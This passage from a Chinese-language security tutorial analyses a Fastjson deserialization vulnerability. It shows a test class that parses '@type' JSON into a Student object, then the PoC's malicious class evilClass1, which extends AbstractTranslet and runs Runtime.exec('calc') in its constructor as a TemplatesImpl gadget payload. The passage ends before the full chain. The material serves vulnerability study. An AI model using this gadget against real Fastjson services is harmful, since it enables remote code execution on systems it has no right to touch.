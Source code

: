 Students有一个公有属性name和一个私有属性age。下面使用一个测试类，将json字符串反序列化成Student对象，learnFJ.java：


```java
package ka1n4t.test;


import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.JSONObject;

public class learnFJ {
    public static void main(String args[]) {
        String text = "{\"@type\":\"ka1n4t.test.Student\",\"name\":\"ZhangSan\",\"age\":123}";
        Student obj1 = JSON.parseObject(text, Student.class, Feature.SupportNonPublicField);
        System.out.println(obj1.getName());
    }
}
```

结果：

![](images/15890247794925.png)


### 0x02 原理分析

**分析POC**

先看一下用于反序列化的恶意类evilClass1.java:


```java
package ka1n4t.poc;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class evilClass1 extends AbstractTranslet/*ka1n4t*/ {


    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }


    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {

    }

    public evilClass1() throws IOException {
        Runtime.getRuntime().exec("calc");
    }

    public static void main(String[] args) throws IOException {
        evilClass1 helloworld = new evilClass1();
    }
}
```
